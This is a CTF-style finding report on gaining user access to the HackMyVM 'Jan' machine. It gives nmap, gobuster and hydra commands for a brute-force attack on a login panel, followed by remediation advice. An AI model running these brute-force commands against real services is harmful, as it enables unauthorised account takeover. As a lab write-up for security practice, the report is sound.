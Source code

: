 📑 Finding Report: User Access (Jan – HackMyVM)
1. Executive Summary
Severity: Low / Informational

Brief description:
Access to the user account jan on the Jan machine from HackMyVM was achieved through brute-forcing the HTTP panel on port 8080.

2. Scope and Environment
Platform: HackMyVM

Machine: Jan (Easy – Linux)

Assigned IP: 192.168.1.130

Test Date: 26/04/2025

Tools Used:

nmap

gobuster

hydra

3. Finding Description
Clear explanation of what was achieved and its significance:

Through a brute-force attack on the login form located at http://192.168.1.130:8080/admin, valid credentials (jan:jan123) were obtained, allowing authentication as user jan.
This demonstrates that the panel does not limit or delay failed login attempts, making it vulnerable to brute-force attacks against real users.

4. Proof of Concept (PoC)
4.1. Port Scanning
nmap -sV -sC -oN jan_nmap.txt 192.168.1.130
Open ports: 22/tcp (SSH), 8080/tcp (HTTP)

4.2. Web Enumeration
gobuster dir -u http://192.168.1.130:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --exclude-length 45
Discovered directory: /admin

4.3. Credential Brute-Forcing

hydra -l jan -P /usr/share/wordlists/rockyou.txt 192.168.1.130 http-post-form "/admin/index.php:username=^USER^&password=^PASS^:F=Invalid" -s 8080
Discovered credentials: jan:jan123

4.4. Account Access
Successful authentication using the retrieved credentials.

5. Impact
Low impact in a CTF or testing environment.

In a real-world scenario, an attacker could:

Enumerate valid users.

Attempt privilege escalation from that account (if vulnerable code is found).

Launch social engineering attacks against internal users.

6. Recommendations / Remediation
Implement account lockout or penalties after a limited number of failed attempts (e.g., after 5 tries).

Add delays (rate-limiting) between login attempts.

Monitor and alert for brute-force patterns.

(Optional) Implement multi-factor authentication (MFA) for administrative access.
